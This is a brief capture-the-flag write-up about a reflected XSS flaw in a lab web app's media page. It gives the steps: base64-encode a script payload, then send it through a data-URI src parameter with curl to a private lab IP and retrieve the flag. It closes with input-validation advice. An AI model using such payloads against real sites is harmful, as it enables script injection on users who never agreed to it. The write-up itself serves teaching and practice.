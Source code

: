 # XSS Media Tag

In the home page there's only one image with a link to the media page. The media page url accepts a file source as a parameter which isn't validated on the server.

## Steps
* Open your terminal and run:
```bash
	py base64Encode.py "<script>alert('Game Over');</script>" #Outputs PHNjcmlwdD5hbGVydCgnR2FtZSBPdmVyJyk7PC9zY3JpcHQ+ 
```
* Now that we have our malicious content encrypted we can send it, run:
```bash
	curl "http://192.168.56.102/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnR2FtZSBPdmVyJyk7PC9zY3JpcHQ+" | grep "flag"
```

## Ways to secure
* The best way to handle this is to validate and sanitize client input.
* Fetch images from their src directory.
